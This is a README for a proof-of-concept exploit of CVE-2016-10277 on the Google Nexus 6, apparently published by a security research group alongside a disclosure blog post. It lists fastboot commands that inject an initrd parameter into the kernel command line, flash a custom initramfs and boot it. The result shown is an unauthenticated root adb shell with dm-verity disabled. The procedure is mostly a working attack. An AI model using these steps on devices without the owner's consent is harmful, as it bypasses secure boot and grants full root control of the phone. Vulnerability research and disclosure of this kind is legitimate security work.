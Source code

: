 # PoC for initroot: Google Nexus 6 Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies 

Steps:

1. Use the commited `initroot.cpio.gz`, or produce your own:

```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot.cpio.gz
$ cd ..
```

Our commited initramfs contains an AOSP userdebug root partition with adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the system partition.

2. `fastboot oem config fsg-id "a initrd=0x11000000,<initroot.cpio.gz size>"`
3. `fastboot flash foo initroot.cpio.gz`
4. `fastboot continue`
5. if you use our initramfs, `adb shell` will now give you a root shell:

```
$ adb shell
shamu:/ # id 
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```


Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)


